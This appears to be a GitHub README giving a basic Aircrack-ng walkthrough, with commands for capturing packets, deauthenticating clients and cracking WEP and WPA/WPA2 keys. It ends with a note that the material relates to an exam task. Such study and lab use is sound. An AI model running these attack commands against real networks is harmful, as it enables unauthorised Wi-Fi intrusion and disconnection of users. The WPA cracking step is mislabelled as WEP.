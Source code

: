 # Aircrack-ng Basic Use Case

Aircrack-ng is a network software suite that includes tools for monitoring, attacking, testing, and cracking Wi-Fi networks. Below is a basic use case for cracking a WEP key using aircrack-ng.

## Steps to Crack a WEP Key

1. **Capture Data Packets**: Use `airodump-ng` to capture data packets from the target network.
2. **Crack the WEP Key**: Use `aircrack-ng` to crack the WEP key from the captured data packets.

## Example Commands

### WEP
1. **Put the Wireless Interface in Monitor Mode:**
   ```sh
   sudo airmon-ng start wlan0
   
2. **Capture Data Packets:**
    ```sh
   sudo airodump-ng -c [channel] --bssid [AP MAC] -w [output file] wlan0mon
     ```
   * -c [channel]: Channel of the target network.
   * --bssid [AP MAC]: MAC address of the target Access Point.
   * -w [output file]: File to save the captured packets.
3. **Crack the WEP Key:**
    ```sh
   sudo aircrack-ng -b [AP MAC] [output file].cap
    ```
   * -b [AP MAC]: MAC address of the target Access Point.
   * [output file].cap: File containing the captured packets.

### WPA/WPA2
1. **Put the Wireless Interface in Monitor Mode:**
   ```sh
   sudo airmon-ng start wlan0

2. **Capture Data Packets:**
    ```sh
   sudo airodump-ng -c [channel] --bssid [AP MAC] -w [output file] wlan0mon
     ```
    * -c [channel]: Channel of the target network.
    * --bssid [AP MAC]: MAC address of the target Access Point.
    * -w [output file]: File to save the captured packets.
3. **Deauthenticate a Client:**
    ```sh
   sudo aireplay-ng --deauth 10 -a [AP MAC] -c [client MAC] wlan0mon
    ```
    * -a [AP MAC]: MAC address of the target Access Point.
    * -c [client MAC]: MAC address of the client device.
4. **Crack the WEP Key:**
    ```sh
   sudo aircrack-ng -w [wordlist] -b [AP MAC] [output file].cap
    ```
    * -w [wordlist]: Path to the wordlist file.
    * -b [AP MAC]: MAC address of the target Access Point.
    * [output file].cap: File containing the captured packets.


# Aufgabe

I got to know about this after I locked my answer and finished the exam. I asked this from one of my friend. I was asked to crack the wireless encryption and identify the Wi-Fi password.


